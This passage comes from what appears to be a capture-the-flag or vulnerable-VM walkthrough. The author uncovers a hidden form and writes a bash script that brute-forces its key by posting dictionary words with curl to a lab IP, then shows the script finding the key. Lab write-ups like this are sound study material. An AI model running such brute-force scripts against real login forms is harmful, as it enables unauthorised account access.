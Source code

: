 At first I thought kzMb5nVYJw was some kind of encrypted text. I tried simple ciphers like ROT13 and Caesar, but nothing returned anything interesting. I tried using it as a password, but that didn't work. What eventually did work was using it in the URL: 


![](/images/2015-08-06/02.png)

It was a form asking for a key. Viewing the source revealed a clue: 

```html
<center>
<form method="post" action="index.php">
Key:<br>
<input type="password" name="key">
</form> 
</center>
<!-- this form isn't connected to mysql, password ain't that complex --!>
```

Ok, so looks like I had to brute force a password. Not the most enjoyable thing, but necessary to continue. After trying several small wordlists, the winner was /usr/share/dict/words. I wrote the following script to brute force the password for me: 

```bash
#!/bin/bash

passwdlist=$1
echo "Brute forcing key..."
while read password; do 
    out=`curl -s -d "key=${password}" http://192.168.107.135/kzMb5nVYJw/index.php`
    echo ${out} | grep "invalid key" >/dev/null
    if [[ $? -ne 0 ]]; then
        echo -e "Found key \e[32m${password}"
        break
    fi 
done < ${passwdlist}
```

And here it is in action: 

```text
# ./brute.sh /usr/share/dict/words
Brute forcing key...
Found key elite
```
